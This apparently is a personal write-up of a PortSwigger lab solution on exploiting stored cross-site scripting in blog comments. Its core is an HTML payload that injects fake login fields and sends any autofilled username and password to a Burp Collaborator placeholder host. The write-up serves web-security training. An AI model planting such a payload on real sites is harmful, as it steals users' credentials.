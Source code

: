 Exploiting cross-site scripting to capture passwords.md
----

### Lab description

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

#### Lab Solution

- Insert the following payload at the comments functionality
```html
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">

```

![](/static/img/Pasted_image_20230614144834.png)

- Verify at burp collaborator

![](/static/img/Pasted_image_20230614144928.png)

- Lab solved!

